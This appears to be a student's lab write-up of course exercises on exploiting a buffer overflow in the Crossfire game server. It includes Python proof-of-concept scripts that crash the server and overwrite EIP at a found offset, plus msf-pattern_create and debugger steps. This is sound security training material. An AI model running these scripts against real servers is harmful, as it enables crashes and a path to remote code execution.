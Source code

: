 # 12.2.1 - Replicating the Crash

#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Log in to your dedicated Linux client using the credentials you received.
In order to login to our linux client we simply need to start the machine and then rdesktop with our credentials.
`rdesktop -u student -g 1024x768 -r clipboard:CLIPBOARD 192.168.233.44`

In preperation for the remaining tasks we must also launch the "Crossfire" application
![[crossfire_start.png]]

2.  On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
Once the application is running we can use the following code on our Kali machine to crash the application 
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```




3.  Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.
We need to start edb, attach to crossfire, and put crossfire into "Run" mode.
![[edb_running.png]]
Once this is complete we can execute our PoC code on our Kali machine to observe the crash.

![[edb_crossfire_crash.png]]


# 12.3.1 Controlling EIP
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

**1.  Determine the correct buffer offset required to overwrite the return address on the stack.**

First we must create a pattern via msfvenom, we do this with the following command:
`msf-pattern_create -l 4379 `

We then add the pattern to our PoC, replacing the initial string of A's.
![[Pasted image 20220714141259.png]]
We can then run the PoC, using EDB to determine what part of the pattern overwrote EIP.
![[Pasted image 20220714141628.png]]

We can see that the new value of EIP is 46367046 and we can now use msf-pattern_offset to find its location.
![[Pasted image 20220714141906.png]]


**2.  Update your stand-alone script to ensure your offset is correct.**

Using the information above, we can update our PoC to ensure the proper offset is being sent. We have now updated the "crash" variable to reflect the proper offset of 4368. The "eip" variable should overwrite the EIP with 4 "B" characters. The remaining space should be filled with "C" characters via the "offset" variable. The script should now look something like this:
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327


crash = "\x41" * 4368
eip = "B" * 4
offset = "C" * (4379 - len(eip) - len(crash))
inputBuffer = crash + eip + offset


buffer = "\x11(setup sound " + inputBuffer + "\x90\x00#"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
